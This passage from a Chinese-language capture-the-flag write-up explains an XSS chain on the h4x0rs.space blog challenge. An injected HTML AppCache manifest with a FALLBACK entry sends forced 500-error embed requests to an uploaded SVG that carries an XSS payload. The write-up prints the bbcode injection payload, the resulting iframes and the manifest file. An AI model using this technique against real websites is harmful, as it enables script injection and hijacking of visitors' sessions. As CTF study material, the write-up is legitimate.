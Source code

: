 然后将manifest设置为相对目录的svg文件路径，形似
```
 <!-- DEBUG 
embed_id: --><html manifest=/blog/untrusted_files/[SVG_MANIFEST].svg>
-->
...

```

在这种情况下，如果我们能触发页面500，那么页面就会跳转至FALLBACK指定页面，我们成功引入了一个任意文件跳转。

紧接着，我们需要通过引入`[ig]a#[/ig]`，通过拼接url的方式，这里的`#`会使后面的`&instagram`无效，使页面返回500错误，缓存就会将其引向FALLBACK设置页面。

这里的payload形似

```
[yt]--%3E%3Chtml%20manifest=%2Fblog%2Funtrusted_files%2F[SVG_MANIFEST].svg%3E[/yt]

[yt]a#[/yt]
[yt]a#[/yt]
[yt]a#[/yt]
[yt]a#[/yt]
[yt]a#[/yt]
[yt]a#[/yt]
[yt]a#[/yt]
[yt]a#[/yt]
[yt]a#[/yt]
[yt]a#[/yt]
```

这里之所以会引入多个`a#`是因为缓存中FALLBACK的加载时间可能慢于单个iframe的加载时间，所以需要引入多个，保证FALLBACK的生效。

最后发送文章id到后台，浏览器访问文章则会触发下面的流程。

上面的文章会转化为

```
<iframe width="0" height="0" src="https://h4x0rs.space/blog/untrusted_files/embed/embed.php?embed=--%3E%3Chtml%20manifest=%2Fblog%2Funtrusted_files%2F[SVG_MANIFEST].svg%3E&p=youtube" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>


<iframe width="0" height="0" src="https://h4x0rs.space/blog/untrusted_files/embed/embed.php?embed=a#&p=youtube" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>

...
```

上面的iframe标签会引入我们提前上传好的manfiest文件

```
CACHE MANIFEST

FALLBACK:
/blog/untrusted_files/embed/embed.php?embed=a /blog/untrusted_files/[SVG_HAVING_XSS_PAYLOAD].svg
```

，并将FALLBACK设置为`/blog/untrusted_files/[SVG_HAVING_XSS_PAYLOAD].svg`
